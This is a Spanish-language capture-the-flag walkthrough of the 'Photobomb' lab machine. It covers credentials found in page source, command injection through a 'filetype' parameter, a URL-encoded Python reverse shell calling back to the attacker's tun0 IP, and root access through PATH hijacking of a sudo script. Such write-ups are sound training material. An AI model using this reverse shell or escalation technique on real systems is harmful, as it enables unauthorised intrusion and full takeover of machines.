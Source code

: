 ```yaml
---
title: 'Photobomb'
description: ''
pubDate: 'May 12 2023'
heroImage: ''
slug: 'box/photobomb'
---
```


Nos metemos a la URL, sin antes cambiar el archivo <i>/etc/hosts</i>.
<img
  src='https://res.cloudinary.com/djc1umong/image/upload/v1665957627/bomb_page_ff29w1.webp'
/>

Vemos un login sencillo al hacer clic en <i>clic here!</i>, pero no contamos con credenciales.

Inspeccionamos el código fuente, y encontramos un archivo <i>photobomb.js</i>, y unos credenciales ahí por si acaso.
<img
  src='https://res.cloudinary.com/djc1umong/image/upload/v1665958090/bomb_view_source_cut_dongsv.webp'
/>
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1665963151/bomb_creds_cut_wqchuw.webp'
layout="responsive"
/>

Nos encontramos con una <i>impresora de fotos</i>, nos permite descargar con diferentes tamaños de resolucion en formato jpg y png.

Es hora de sacar el <Anchor src='https://portswigger.net/burp'>BurpSuite</Anchor> y ver a fondo que ocurre con esta petición al descargarnos fotos.

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1665964126/bomb_burp_cut_jqy1g9.webp'
/>

Haciendo pruebas con la herramienta, notamos que el parametro <i>filetype</i> se lo come con patatas, aca ingresamos una nuestra reverse Shell y escuchamos en:

```bash
$ nc -nlvp 4443
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1666148261/bomb_shell_d2_l9b4zh.webp'
/>

Shell usada para este caso, sin embargo hay muchas más en Google

```python

python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<tun0-IP>",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Una vez dentro proseguimos al <Anchor src="#">obtener una bash</Anchor>

```bash
sudo -l
```

Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh

```bash
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

notamos que al final del scrip en <i>/opt/cleanup.sh </i>ejecutamos chown root:root

```bash
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
id
uid=0(root) gid=0(root) groups=0(root)

# ROOTED
```
